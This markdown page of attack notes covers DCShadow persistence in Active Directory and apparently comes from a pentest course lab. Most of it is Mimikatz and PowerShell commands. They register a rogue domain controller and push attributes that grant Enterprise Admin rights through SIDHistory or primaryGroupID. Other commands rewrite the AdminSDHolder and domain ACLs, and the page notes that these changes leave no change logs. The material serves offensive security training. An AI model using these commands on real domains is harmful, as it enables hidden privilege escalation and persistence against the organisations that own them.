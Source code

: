 ```yaml
---
title: "DC Shadow"
description: "Persistence using DC Shadow."
lead: "Using DC Shadow for persistence in Active Directory with PowerView and Mimikatz."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_persistence"
weight: 60
toc: true
---
```


## General

- Temporarily register a new domain controller in the target domain
- Use it to "push" attributes like SIDHistory or SPN on the target object
- Does not leave any change logs for the modified object
- New DC is registered my modifying the Configuration container, SPNs of an existing computer object and some RPC services
- Since attributes are changed from a DC, there are no change logs on the actual DC for the target object
- Requires DA privileges by default
- Attacker machine must be part of root domain of the forest

## Exploitation

- Requires two mimikatz sessions
- One with SYSTEM privileges to start RPC servers and specifiy attributes we want to modify

```powershell
!+
!processtoken
lsadump::dcshadow /object:root572user /attribute:Description /value="Hello from DCShadow"
```

- Another with enough privileges (DA or required permissions) to push the values

```powershell
lsadump::dcshadow /push
```

### Minimal Permissions

- DCShadow can be used with minimal permissions by modifying the ACLs of the
  - domain object
    - `DS-Install-Replica` (Add/Remove Replica in Domain)
    - `DS-Replication-Manage`-Topology (Manage Replication Topology)
    - `DS-Replication-Syncrhonize` (Replication Synchronization)
  - sites object (and its children) in the Configuration container
    - `CreateChild` and `DeleteChild`
  - object of the computer which is registered as a temporary DC
    - `WriteProperty` (Not Write)
  - target object
    - `WriteProperty` (Not Write)
- We can use `Set-DCShadowPermissions` from Nishang for setting the permissions
- Then, we don't need the second mimikatz instance running as a DA to push the changes

```powershell
# Use DCShadow as user student572 to modify root572user object from machine mcorp-student572
Set-DCShadowPermissions -FakeDC mcorp-student572 -SAMAccountName root572user -Username student572 -Verbose
```

### Interesting Attack Vectors

#### Set SIDHistory of a User Account to Enterprise Admins or Domain Admins Group

- User will not show up as EA/DA when running queries like `net group "Enterprise Admins" /domain`

```powershell
lsadump::dcshadow /object:student572 /attribute:SIDHistory /value:S-1-5-21-280534878-1496970234-700767426-519
```

#### Set primaryGroupID of a User Account to Enterprise Admins or Domain Admins

- Use will show up as a member of the target group when running queries like `net group "Enterprise Admins" /domain`

```powershell
lsadump::dcshadow /object:student572 /attribute:primaryGroupID /value:519
```

#### Modify ntSecurityDescriptor for AdminSDHolder to add Full Control for a User

```powershell
# Get the current ACL and copy it to clipboard
(New-Object System.DirectoryServices.DirectoryEntry(("LDAP://CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl | Set-Clipboard

# Append a FullControl ACE from above for SY/BA/DA
# Replace SY/BA/DA with our user's SID

# Get current user SID with PowerView
Get-DomainUser student572 | select objectsid

# Mimikatz command
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:$modifiedACEString
```

#### DCShadowception

- Run DCShadow from DCShadow
- Modifying permissions for objects so we dont need DA rights will also not leave any logs

```powershell
# Elevate to SYSTEM in mimikatz session
!+
!processtoken

# Get ACL for domain object
# ACEs to append:
# (OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)
# (OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)
# (OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)
(New-Object System.DirectoryServices.DirectoryEntry(("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl

# Mimikatz command
lsadump::dcshadow /stack /object:DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:$modifiedACEString

# Get ACL for computer object (attacker machine)
# ACE to append: (A;;WP;;;UserSID)
(New-Object System.DirectoryServices.DirectoryEntry(("LDAP://CN=mcorp-student572,CN=Computers,DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl

# Mimikatz command
lsadump::dcshadow /stack /object:mcorp-student572$ /attribute:ntSecurityDescriptor /value:$modifiedACEString

# Get ACL for target user
# ACE to append: (A;;WP;;;UserSID)
(New-Object System.DirectoryServices.DirectoryEntry(("LDAP://CN=student572,CN=Users,DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl

# Mimikatz command
lsadump::dcshadow /stack /object:student572 /attribute:ntSecurityDescriptor /value:$modifiedACEString

# Get ACL for Sites object in Configuration container
# ACE to append: (A;CI;CCDC;;;UserSID)
(New-Object System.DirectoryServices.DirectoryEntry(("LDAP://CN=Sites,CN=Configuration,DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl

# Mimikatz command
lsadump::dcshadow /stack /object:CN=Sites,CN=Configuration,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:$modifiedACEString

# Start RPC server
lsadump::dcshadow

# Push changes from other session
lsadump::dcshadow /push
```

